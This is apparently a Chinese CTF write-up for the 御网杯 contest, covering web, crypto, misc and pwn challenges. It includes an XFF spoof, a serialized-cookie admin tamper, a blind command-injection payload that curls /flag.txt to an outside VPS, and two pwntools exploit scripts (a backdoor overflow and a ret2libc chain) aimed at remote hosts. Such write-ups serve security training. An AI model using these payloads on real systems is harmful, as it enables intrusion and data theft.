# 御网杯wp-先知社区

> **来源**: https://xz.aliyun.com/news/17983  
> **文章ID**: 17983

---

# Web

## YWB\_Web\_xff

打开靶机发现是一个登录界面，根据题目内容提示，是ip绕过，查看源码，发现php代码



根据代码意思，只有我们的ip是2.2.2.1时才能输出flag

利用hackbar工具或者bp，将X-Forwarded-For的ip设为2.2.2.1，点击登录即可得到flag



## YWB\_Web\_未授权访问

根据题目提示，让我们以管理员身份访问网站，打开靶机，

在cookie这里发现一个特别代码，我们将url解码看看是啥

一眼发现是反序列化之后的字符串，解析一下，

这是一个 Admin 类的对象，包含：name = "guest"，isAdmin = false，既然要成为管理员直接把isAdmin改成true就行了，即：O:5:"Admin":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:1;}

在进行url编码，重新复制给user。



得到flag



## easyweb

打开靶机，是一个php代码



POST传入cmd参数进行命令执行，由于exec是无回显命令执行

询问AI



```
cmd=curl 8.138.133.72:8000/`cat /flag.txt`
```

在vps上面监听8000端口



获取flag

# CRYPTO

## easy-签到题

先base64解码得到GY3DMQZWGE3DON2CGM4DMNBTGA3DEMZSGM4TGMZWGEZEIMZWGYZTGMJWGUZEIMZVGY3DGNZTGQZEIMZZGYZDGMZTGYZEIMZUGMYDGMJTHAZTOMZTGMZDGNRTGU3DKMZZGY3DORA=

再base32解码得到

666C61677B38643062323933612D366331652D356637342D396233362D3430313837333236356539667D

再base16解码得到



flag{8d0b293a-6c1e-5f74-9b36-401873265e9f}

​

## 草甸方阵的密语

lDrwgDmg{efhsFr}



先栏栅得到lrgm{fsrDwDgehF}



再凯撒得到flag{zmlXqXaybZ}

​

## ez\_base

垃圾邮箱解得到base64解码即可


解base得：



flag{HNCTFhe9GFNECVH5TF}

​

## baby\_rsa

yafu一下得到p,q



然后解rsa即可

```
from Crypto.Util.number import *

n =  12194420073815392880989031611545296854145241675320130314821394843436947373331080911787176737202940676809674543138807024739454432089096794532016797246441325729856528664071322968428804098069997196490382286126389331179054971927655320978298979794245379000336635795490242027519669217784433367021578247340154647762800402140321022659272383087544476178802025951768015423972182045405466448431557625201012332239774962902750073900383993300146193300485117217319794356652729502100167668439007925004769118070105324664379141623816256895933959211381114172778535296409639317535751005960540737044457986793503218555306862743329296169569
e =  65537
c =  4504811333111877209539001665516391567038109992884271089537302226304395434343112574404626060854962818378560852067621253927330725244984869198505556722509058098660083054715146670767687120587049288861063202617507262871279819211231233198070574538845161629806932541832207041112786336441975087351873537350203469642198999219863581040927505152110051313011073115724502567261524181865883874517555848163026240201856207626237859665607255740790404039098444452158216907752375078054615802613066229766343714317550472079224694798552886759103668349270682843916307652213810947814618810706997339302734827571635179684652559512873381672063


p= 110428348144013242234907008083355974834266917027228724749730385104087025249352345946164980361082178532313669767485270254326404723948153912910688118140621712922649644396733499972695482991866293857864311557686710317462165131360819813493524457615383204504505224030129953230866877990529769205769592709254542472051
q= 110428348144013242234907008083355974834266917027228724749730385104087025249352345946164980361082178532313669767485270254326404723948153912910688118140621712922649644396733499972695482991866293857864311557686710317462165131360819813493524457615383204504505224030129953230866877990529769205769592709254542470619

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(m)

print(long_to_bytes(m))
#flag{5c9c885c361541e0b261f58b61db8cec}  
```

然后将4改成5得到：



flag{5c9c885c361551e0b261f58b61db8cec}

# misc

## 被折叠的显影图纸



用010editor将flag文件打开搜索flag字符串即可得到flag



flag is here flag{0ff!c3\_3@$y\_Kr@kK3d}

## ez\_xor



写脚本进行解密得到flag



flag{HCTFqweASD155}

## 光隙中的寄生密钥

用binwalk提取出图片文件中的压缩包文件



用ARCHPR爆破得到压缩包密码



得到flag.txt中的内容



用CyberChef将其中的十六进制转换成字符再进行base64解码即可得到flag


flag{2Vd#Mk6%pR9zX!sA}

## ​

# pwn

## Canary





存在溢出



有后门，栈溢出打后门即可



```
from pwn import *
from ctypes import *
elf=ELF('./Canary')
#io = process([elf.path])
context(log_level='debug', arch=elf.arch, os=elf.os)
io=remote('47.105.113.86',30001)
libc = elf.libc
def debug():
    gdb.attach(io, gdbscript="")
    pause()
def get_addr():
    return u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sys():
    return libcbase + next(libc.search(b'/bin/sh\x00')), libcbase + libc.sym['system']
r 		= lambda num			: io.recv(num)
ru		= lambda data			: io.recvuntil(data)
rl		= lambda			: io.recvline()
s 		= lambda data 			: io.send(data)
sl 		= lambda data 			: io.sendline(data)
sla		= lambda data,pay		: io.sendlineafter(data,pay)
uu64 		= lambda size			: u64(io.recv(size).ljust(8,b'\x00'))
uu32		= lambda size			: u32(io.recv(size).ljust(4,b'\x00'))
itr		= lambda 			: io.interactive()
li		= lambda x 			: print('\x1b[01;38;5;214m' + x + '\x1b[0m')
pop_ret  = 0x40158e
sla(b"Input your choice
", str(1).encode())
buf = p64(1)*15+p64(pop_ret+1)+p64(0x401579)
sla(b"Show me the code:
",buf)
sla(b"Input your choice
", str(2).encode())
sla(b"Input your choice
", str(3).encode())
itr()
```

## ez\_pwn



简单栈溢出，但是close(1) 将输出到标准错误拿libcbase打system bin\_sh 。最后重定向一下即可。



```
from pwn import *
from ctypes import *
elf=ELF('./pwn')
#io = process([elf.path])
context(log_level='debug', arch=elf.arch, os=elf.os)
io = remote('47.105.113.86',30003)
libc = elf.libc
def debug():
    gdb.attach(io, gdbscript="")
    pause()
def get_addr():
    return u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sys():
    return libcbase + next(libc.search(b'/bin/sh\x00')), libcbase + libc.sym['system']
r 		= lambda num			: io.recv(num)
ru		= lambda data			: io.recvuntil(data)
rl		= lambda			: io.recvline()
s 		= lambda data 			: io.send(data)
sl 		= lambda data 			: io.sendline(data)
sla		= lambda data,pay		: io.sendlineafter(data,pay)
uu64 		= lambda size			: u64(io.recv(size).ljust(8,b'\x00'))
uu32		= lambda size			: u32(io.recv(size).ljust(4,b'\x00'))
itr		= lambda 			: io.interactive()
li		= lambda x 			: print('\x1b[01;38;5;214m' + x + '\x1b[0m')
rdi=0x4012c3
rsi=0x4012c1
ru( "Close your eye, and you are blind now.")
pay = b'a'*(0x20+8)+p64(rdi)+p64(2)
pay+= p64(rsi)+p64(elf.got['read'])+p64(elf.plt['write'])+p64(elf.plt['write'])+p64(0x401207)
s(pay)
libcbase=get_addr()-libc.sym['read']
li(hex(libcbase))
bin,sys = get_sys()
sleep(0.1)
pay=b'a'*(0x20+8)+p64(rdi)+p64(bin)+p64(sys)
s(pay)
sleep(0.1)
sl(b'exec 1>&0')
sleep(0.1)
sl(b'cat /flag')
itr()
```
